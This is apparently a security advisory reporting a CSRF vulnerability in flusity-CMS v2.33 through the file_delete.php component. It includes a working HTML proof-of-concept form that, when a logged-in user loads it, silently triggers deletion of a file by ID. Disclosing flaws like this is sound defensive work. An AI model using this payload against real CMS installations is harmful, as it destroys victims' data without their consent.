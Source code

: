 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/file_delete.php

![1](https://github.com/MSfAdminUser/cms/assets/157438577/546b59e6-c885-4ba9-8f1f-8958ef39fd50)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/file_delete.php">
      <input type="hidden" name="id" value="41" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```

![2](https://github.com/MSfAdminUser/cms/assets/157438577/721c1514-be45-4db4-9fcf-c232557acc27)


Successed

![3](https://github.com/MSfAdminUser/cms/assets/157438577/db80728a-af65-4786-8c6f-bec049a2de70)
